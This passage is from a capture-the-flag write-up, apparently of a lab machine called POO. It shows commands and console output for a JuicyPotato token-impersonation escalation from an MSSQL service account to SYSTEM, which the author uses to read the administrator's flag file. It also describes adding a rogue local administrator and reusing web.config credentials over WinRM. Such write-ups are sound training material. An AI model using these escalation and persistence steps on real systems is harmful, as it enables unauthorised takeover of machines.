      Directory of C:\temp

    02/16/2019  01:09 AM    <DIR>          .
    02/16/2019  01:09 AM    <DIR>          ..
    02/16/2019  01:09 AM               353 out.txt
                   1 File(s)            353 bytes
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>type \temp\out.txt
     Volume in drive C has no label.
     Volume Serial Number is F661-7669

     Directory of c:\users\administrator\desktop

    04/07/2018  12:02 PM    <DIR>          .
    04/07/2018  12:02 PM    <DIR>          ..
    03/26/2018  04:29 PM                37 flag.txt
                   1 File(s)             37 bytes
                   2 Dir(s)   6,083,448,832 bytes free
                   2 Dir(s)   6,083,448,832 bytes free



I'll create a `.bat` file to get the flag:



    root@kali# cat flag.bat 
    type c:\users\administrator\desktop\flag.txt > c:\temp\out.txt



Upload and run it with `jp.exe`, and the flag is in `temp`:



    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>upload flag.bat
    100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 7/7 [00:00<00:00, 45.73K/s]
    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>jp.exe -t * -p C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp\flag.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                        
    Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
    ......
    [+] authresult 0
    {5B3E6773-3A99-4A3D-8096-7765DD11785C};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK

    C:\Users\MSSQL$POO_PUBLIC\AppData\Local\Temp>type \temp\out.txt

    POO{ff87c4fe************************}



### Administrator Shell

I don't have any console text for the rest of this, but I noticed WinRM
on IPv6 at this point, and my next step was to use `jp.exe` to add a
local administrator account. Each time the lab got reset, and I would
have to go into the DB, bound to add an sa user, start a shell, upload
JuicyPotato and a bat file to add the account and add it to the
administrators group, and then WinRM as that account.

After a couple times, I decided to try the creds from the `web.config`,
and they worked. It was both a relief and maddening.





